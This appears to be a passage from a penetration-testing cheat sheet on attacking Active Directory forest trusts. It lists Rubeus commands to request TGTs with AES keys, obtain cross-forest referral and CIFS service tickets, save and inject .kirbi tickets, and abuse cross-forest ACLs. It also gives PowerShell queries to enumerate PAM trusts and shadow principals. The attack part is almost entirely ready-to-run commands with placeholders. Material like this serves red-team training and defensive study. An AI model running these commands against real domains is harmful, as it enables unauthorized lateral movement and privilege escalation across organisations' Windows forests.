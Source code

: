 ````
#### Create TGT
```
.\Rubeus.exe asktgt /user:<USER> /domain:<DOMAIN> /aes256:<AES KEY> /nowrap
```
 
#### Request a referral ticket
- from the current domain, for the target domain.
```
.\Rubeus.exe asktgs /service:krbtgt/<EXTERNAL FQDN> /domain:<FQDN> /dc:<DC FQDN> /ticket:<BASE64 TICKET> /nowrap
```
 
#### Request TGS
```
.\Rubeus.exe asktgs /service:cifs/<EXTERNAL FQDN> /domain:<EXTERNAL FQDN> /dc:<EXTERNAL DC FQDN> /ticket:<BASE64 TICKET> /nowrap
```
 
#### Write ticket to file
```
[System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\subsidiary.kirbi", [System.Convert]::FromBase64String("<BASE64 TICKET>"))
```
 
#### Then inject and use the ticket
```
.\Rubeus.exe /ticket:<TICKET BASE64>
.\Rubeus.exe /ticket:<FILE TO KIRBI FILE>
```
 
## ACLS
- Access to resources in a forest trust can also be provided without using FSPs using ACLs.
```
Find-InterestingDomainAcl -Domain <TRUST FOREST>
```
- Abuse ACL to other forest.

## Pam Trust
- PAM trust is usually enabled between a Bastion or Red forest and a production/user forest which it manages. 
- PAM trust provides the ability to access a forest with high privileges without using credentials of the current forest. Thus, better security for the bastion forest which is much desired.
- To achieve the above, Shadow Principals are created in the bastion domain which are then mapped to DA or EA groups SIDs in the production forest.

### Check if current domain is Bastion forest
#### Enumerate if the current domain is a bastion forest
- Run on the DC
- If there are trusts with the attributes ```ForestTransitive -eq $True``` and ```SIDFilteringQuarantined -eq $False``` check for Shadowprincipals. If there are then its a Bastion forest.
```
Get-ADTrust -Filter {(ForestTransitive -eq $True) -and (SIDFilteringQuarantined -eq $False)}
```

#### Check which users are members of the shadow principals
- Run on the DC
```
Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * | select Name,member,msDS-ShadowPrincipalSid | fl
```

### Check if current domain is managed by bastion forest
- Now, TrustAttributes is a very good indicator. ```TAPT (TRUST_ATTRIBUTE_PIM_TRUST)``` is ```0x00000400``` (1024 in decimal) for PAM/PIM trust. If this bit and ```TRUST_ATTRIBUTE_TREAT_AS_EXTERNAL (0x00000040)``` are set, the trust is a PAM trust. 
````